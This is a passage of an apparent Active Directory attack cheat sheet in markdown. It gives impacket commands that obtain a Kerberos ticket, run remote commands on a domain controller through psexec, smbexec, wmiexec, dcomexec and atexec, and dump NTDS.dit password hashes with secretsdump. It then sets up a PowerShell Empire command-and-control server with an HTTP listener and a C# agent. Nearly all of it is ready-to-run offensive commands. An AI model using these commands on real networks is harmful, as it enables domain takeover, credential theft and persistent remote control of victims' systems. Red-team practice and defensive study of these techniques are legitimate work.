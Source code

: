 #### Request the TGT with password
```bash
impacket-getTGT -dc $dc $fqdn/$user:$password
### If not provided, password is asked
```

#### Set the TGT for impacket use
```bash
tgt="Administrator.ccache"
export KRB5CCNAME=$tgt
```
#### Execute remote commands with any of the following by using the TGT
```bash
target="$dc"
impacket-psexec -dc $dc $fqdn/$user@$target -k -no-pass
impacket-smbexec -dc $dc $fqdn/$user@$target -k -no-pass
impacket-wmiexec -dc $dc $fqdn/$user@$target -k -no-pass
impacket-dcomexec -object MMC20 -dc $dc $fqdn/$user@$target -k -no-pass
```

#### DCOM and AT Execs
```bash
impacket-dcomexec -object MMC20 -dc $dc $fqdn/$user:$password@$target
impacket-atexec -dc $dc $fqdn/$user:$password@$target whoami
```

#### Dump the NTDS.dit
```bash
impacket-secretsdump -dc $dc $fqdn/$user:$password@$target
```


### 3b. - Establishing Roots

#### Start empire
```bash
pip3 install donut-shellcode
powershell-empire server
powershell-empire client
```

#### Set up http listener
```bash
uselistener http
set Host http://192.168.0.243
set Port 8889
generate

#### Roslyn Compiled C Sharp Agent (hotlanta)
#### CSharp Server
useplugin csharpserver
set status start
execute
```
